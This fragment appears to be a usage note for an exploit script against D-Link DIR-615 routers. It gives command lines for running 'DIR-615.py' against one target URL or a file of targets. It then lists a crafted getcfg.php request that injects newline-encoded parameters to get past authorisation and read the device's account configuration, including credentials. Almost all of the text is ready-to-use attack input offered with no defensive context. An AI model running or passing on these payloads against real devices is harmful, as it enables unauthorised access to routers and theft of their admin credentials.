 python DIR-615.py -u http://192.168.0.1

python DIR-615.py -r file.txt

                                         #Use this Method
                                         
192.168.4.1/getcfg.php?a=%0A_POST_SERVICES=DEVICE.ACCOUNT%0AAUTHORIZED_GROUP=1

192.168.4.1/getcfg.php?a=%0a_POST_SERVICES%3DDEVICE.ACCOUNT%0aAUTHORIZED_GROUP%3D1 HTTP/1.1

192.168.4.1/getcfg.php?a=%0A_POST_SERVICES=DEVICE.ACCOUNT%0AAUTHORIZED_GROUP=1

